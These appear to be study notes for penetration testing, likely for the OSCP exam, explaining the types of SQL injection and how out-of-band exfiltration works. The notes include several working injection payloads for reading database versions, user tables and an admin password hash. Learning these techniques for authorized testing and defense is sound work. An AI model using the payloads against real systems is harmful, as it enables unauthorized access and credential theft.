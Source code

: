
# Types
- **In-Band** - Results are returned onscreen  
- **Error-Based** - Obtaining info about the db structure through error messages  
- **Blind-Based** - Little to no feedback given whether query works or not as error messages are disabled (can still use for auth bypass on login pgs)  
- **Union-Based** - Uses UNION operator alongside SELECT to return additional results  
- **Boolean-Based** - Where response only returns one of two options: true/ false  
• **Out-of-Band** - Relies on specific features enabled in the db or webapp logic which makes an external network call based on the SQL query results.  
	- Two different communication channels: one to launch attack, one to gather results  
	- Less common.  
		1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.  
		2. The Website makes an SQL query to the database which also passes the hacker's payload.  
		3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.  
  
Ex: DNS can be used to exfil data from a db


# Exploiting

OSCP's using () as req for successful sqli & potentially requiring a wildcard before the '
```sql
%' OR 1=1 in (SELECT * FROM users) -- //
```


```sql
-- Attempt to recover MySQL version
' or 1=1 in (select @@version) -- //

'-- Attempt to retrieve Users table
' OR 1=1 in (SELECT * FROM users) -- //

'-- If above errors out stating Operand should contain 1 column attempt to list a specific column
' or 1=1 in (SELECT password FROM users) -- //

' -- Attempt to get Admin's password hash
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## SQL Statements

```sql
-- Extract data from a db/ Select specific db or table
SELECT <data>

-- Insert new data into a db
INSERT INTO users (username,password) VALUES ('bob','password123');

-- Update data in a db
UPDATE users SET username='root',password='pass123' WHERE username='admin';

-- Delete data from a db
DELETE

-- Specify desired table
SELECT <column_name> FROM <table_name>

-- Filter records
WHERE id=1
WHERE username = 'admin'

```